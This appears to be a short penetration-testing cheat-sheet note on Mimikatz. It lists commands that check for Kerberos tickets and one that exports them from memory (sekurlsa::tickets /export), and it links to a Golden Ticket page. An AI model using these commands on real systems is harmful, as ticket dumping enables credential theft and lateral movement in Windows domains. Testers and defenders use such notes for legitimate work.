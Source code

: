 # 01 - Mimikatz

- Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

- Extract tickets

`mimikatz # sekurlsa::tickets /export`

---
## References

- [[Golden Ticket]]